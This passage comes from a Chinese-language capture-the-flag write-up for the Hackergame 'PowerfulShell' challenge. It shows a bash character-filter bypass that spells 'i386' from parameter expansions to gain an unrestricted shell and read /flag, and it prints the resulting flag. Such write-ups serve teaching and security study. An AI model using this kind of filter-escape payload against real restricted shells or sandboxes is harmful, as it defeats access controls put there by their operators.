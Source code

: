 ```plain
PowerfulShell@hackergame> ${_:1:2}
/players/PowerfulShell.sh: line 16: np: command not found
```

查阅资料得知，要使用动态生成的变量名，必须先将这个**变量名**存为新的变量（例如 `a`），然后用 `${!a}` 调用。但是 `!` 也 ban 了，还能怎么样呢？

现在利用 `$-` `$_`，以及下标 `0`（`$[]`），我们已经可以获得额外的字符 `Bhinptu`。说不定，用这些字符已经可以执行一些有用的命令了。我们随便开一个 GNU/Linux 环境，`ls` 一下看看 `/bin` 里面有什么。

<a name="superior-attention"></a>

![ls /bin](_assets/image-1.png)

尽管这些字符能拼出的命令还是极为有限，但并非没有。`i386` 就是一个。为什么会有这种命令呢？难道是指令集调试工具？不管了，先看看。

```plain
root@ada3e8c30aa2:/# i386
#
```

啊？这不 shell 吗？

```plain
root@ada3e8c30aa2:/# i386
# ls
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

还真是！那么问题就直接解决了。

```plain
PowerfulShell@hackergame> ${_:$[]:1}386
ls /
<...>
cat /flag
flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_94eeda44fa}
```

_（不知为何，题目环境里的 i386 shell 没有提示符 `$` 或者 `#`）_

### Flag

```plain
flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_94eeda44fa}
```

Now I admit ur truly shell master.
